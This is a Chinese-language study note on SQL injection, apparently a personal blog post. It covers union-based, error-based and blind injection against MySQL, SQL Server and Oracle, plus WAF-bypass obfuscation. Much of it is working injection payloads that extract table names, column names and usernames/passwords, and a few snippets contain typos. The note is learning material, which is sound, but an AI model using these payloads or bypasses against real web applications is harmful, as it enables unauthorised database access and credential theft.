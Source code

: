 ```yaml
---
title: sql注入
date: 2021-12-28 14:15:15
tags: 
- sql
- 注入
---
```


## sql 注入

### 一般过程

1. 找到网站注入点
2. 判断注入点是字符型还是数字型注入（使用减法，使用`and 1=1`）
3. 判断闭合方式（fuzz，仅限于字符型注入）
4. 判断前一条sql查询列数（推荐`group by` 、 `order by`容易waf检测）
5. 查询回显位（仅限union注入）
    ```mysql
    ?id=-1 union select 1,2,3
    ```
6. 查询当前数据库库名
7. 查询当前数据库所有表名
    * **table_name**表示表名，mysql数据库有**information_schema**数据库,存放了表名，列名，**information_schema.tables**是存放所有表名的表，**information_schema.columns**是存放所有列名的表，**table_schema**是数据库的名称，**table_name**是存放表名的列（是information_schema.tables的属性）,**group_concat**可以一行显示多个数据
    `?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()`
8. 查询当前数据所有列名,**column_name**是存放所有列名的列,**information_schema.columns**包含了**table_name**属性
    `?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'`
9. 查询当前数据表所有列项 **id,username,password**
    `?id=-1 union select 1,2,group_concat(id,':',username,'****') from users`

### 报错注入
原理：优先执行括号内的内容,报错注入最多一次只能显示*32*个字符
1. **extractvalue**报错注入

    * 数据库读取XML文件，**extractvalue(书名，路径)**，路径格式必须是`/`,否则报错
    * **concat(0x7e,(select database)))** 组合参数,concat用于连接字符串，若有一个参数为null，则返回null
    `?id=-1' and 1=extractvalue(1,concat(0x7e,(select database()))) --+`
    * **substring('test',x,y)**，从第x个字符开始，显示y个字符 
    * 解决只能返回32个字符串问题
    `?id=-1' and 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30)))) --+ /*从第25个字符往后再显示30个字符*` 

2. updatexml报错注入
    * updatexml()修改文档，三个参数，第二个参数为路径
    `id=1' and 1=updatexml(1,concat(0x7e,(select databse())),3) --+`
    `?id=1 union select 1,2,updatexml(1,concat(0x7e,(select database())),3) --+`

    `SELECT concat_ws('-',2.3);`
    `SELECT concat_ws('-',database(),floor(rand()*2));`
    `select count(*),concat_ws('-',(select database()),floor(rand(0)*2)) as cc from information_schema.tables group by cc;`
3. floor报错注入
    * floor,count,group by冲突报错
    * 注入语句`and select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)`

### 盲注
3. 布尔盲注
    *   页面不会报错，页面有两种状态，一种真值，一种假值
    `?id=1' and ascii(substring((select database()),2,1))=101 --+`


4. 时间盲注

    `select if(1>2,2,sleep(2));`

### 绕过防火墙
1. preg_replace($reg,$replace.$id)，替换函数

2. 双写绕过

3. 大小写绕过

4. 替换
    * order by = group by
    * union select = union all select

5. 混淆
    * 注释：/\*xxxx\*/      /\*!50000 version()\*/   *!会执行注释里的内容，版本大于5.0就会执行version()命令*
    `?id=-1' union /*!99999xxx*/ select 1,2,3,4 --+`
    `?id=-1' union /*!99999xxx*/ select 1,2,database(/*!99999 xxx*/) --+`
    * 换行：  +(空格)   %0A(换行，--+只注释当前行，换行后不注释)
    * 换行加注释： %0a --+ xxx
    `?id=-1' union /*!50000 --+/*%0a select 1,2,database() */ --+`



php?id=  --------->mysql

asp?id=  --------->access sql server

jsp?id=  ---------> oracle


### sql server 注入
1. 常见查询函数
    * select @@version; 数据库版本
    * select @@servername; 查询服务名
    * select host_name(); 查询主机名，如果用vnavicat远程连接，主机名是本地名字
    * select db_name； 查询当前数据库名
    * select user; 查询当前数据库的拥有者，结果为dbo。dbo 是每个数据库的默认用户，具有所有者权限，databaseOwner
    * 只能使用order by函数查询列数
    * for xml path('')===gropu_concat()
    `select * from user for xml path('')`
    * quotename(表名)
    `select quotename() from user for xml path('')`
    `?id=0' union select 1,2,(select quotename(table_name) from information_schema.tables for xml path('')) --+`
    `?id=0' union select 1,2,(select quotename(column_name) from information_schema.columns where table_name='users' for xml path('')) --+`

    * sql server 排除法
    * where 列名 not in 排除法
    `where name not in('database1','database2')`
    * master..sysdatabases获取数据库名
    `?id=0' union select 1,2,name from master..sysdatabases where name not in('master','model','msdb','ReportServer','ReportServerTempDB') --+`
    * sys.sysobjects表，存放所有数据库表名的表，xtype是S是system，U是user
    `?id=0' union select 1,2,name from sysobjects where xtype='U' --+`
    * sys.syscolumns表，存放所有数据库列名的表，通过id确定表
    `?id=0' union select 1,2,name from syscolumns where id=(select id from sysobjects where name='users' and xtype='U') and name not in ('id') --+`
2. 报错注入
    * `?id=0' and 1=(@@version) --+`
    * `?id=1' and 1=(select quotename(table_name) from information_schema.tables for xml path('')) --+`
    * convert()把时间定义一个数据类型
        * convert(data_type(length),data_to_beconverted,style)
    * cast()将数据类型转换为另一种数据类型
        * select cast(@@version as int)
3. 布尔盲注
    * `/?id=1' and ascii(substring(db_name(),1,1))>100 --+`
4. 时间盲注
    * waitfor delay '00:00:02'查询动作等待2秒后反馈结果
        * `if(ascii(substring((db_name()),1,1))>100) begin waitfor delay '00:00:00' end else begin waitfor delay '00:00:02' end --+`


### oracle 注入
1. 数据类型保持一致
    * 判断数据类型，dual是oracle的虚表
    `?id=0' union select '1',null,null from dual --+`出现报错，则第一个数据类型为整形，若没有报错，则为字符型
    `?id=1' union select 1,'2','3' from dual --+`判断回显位
    * wm_concat(),多行变一行，user_tables是表名，user_tab_columns是列名
        * `?id=1' union select 1,'2',(select wm_concat(table_name) from user_tables) from dual --+`
        * `?id=1' union select 1,'2',(select wm_concat(column_name) from user_tab_columns where table_name='USER') from dual --+`
        * `?id=1' union select 1,'2',(select wm_concat(column_name) from user_tab_columns where table_name='USERS') from dual --+`